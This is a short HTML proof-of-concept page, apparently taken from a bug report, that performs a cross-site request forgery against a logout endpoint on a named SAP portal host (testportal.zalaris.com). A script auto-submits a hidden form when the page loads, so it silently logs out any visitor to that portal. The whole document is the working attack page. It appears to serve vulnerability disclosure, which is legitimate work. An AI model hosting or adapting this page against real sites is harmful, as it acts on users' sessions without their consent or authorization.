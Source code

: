 <html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://testportal.zalaris.com/irj/servlet/prt/portal/prtroot/com.sap.portal.navigation.masthead.LogOutComponent">
      <input type="hidden" name="logout&#95;submit" value="true" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

